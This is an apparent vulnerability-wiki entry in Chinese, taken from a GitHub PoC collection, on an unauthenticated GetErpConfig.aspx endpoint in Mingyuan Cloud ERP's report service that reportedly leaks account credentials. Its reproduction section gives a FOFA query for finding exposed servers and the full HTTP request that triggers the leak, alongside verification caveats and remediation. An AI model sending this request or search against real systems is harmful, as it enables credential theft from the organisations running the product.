

# 明源云报表服务 GetErpConfig配置暴露

## 条目说明

- 对象与具体问题：明源云报表服务；GetErpConfig配置暴露
- 版本、配置及部署条件：无版本，erpKey=erp60配置存在
- 认证与权限前提：声称无需鉴权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- FOFA截断，完整请求但字段/凭据类型仅截图
- 用户名密码到底DB/集成/业务账户需区分，不泛称可登录
- 缺正式公告/build，在野状态无依据

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

明源云erp报表 geterpconfig 未授权访问漏洞在不经过验证的情况下获取用户的用户名密码，进行进一步的漏洞利用，危害极大。

## 影响版本

明源云erp

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="报表服务已正常运行"

POC/EXP：

```http
GET /service/Mysoft.Report.Web.Service.Base/GetErpConfig.aspx?erpKey=erp60 HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
```





## 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
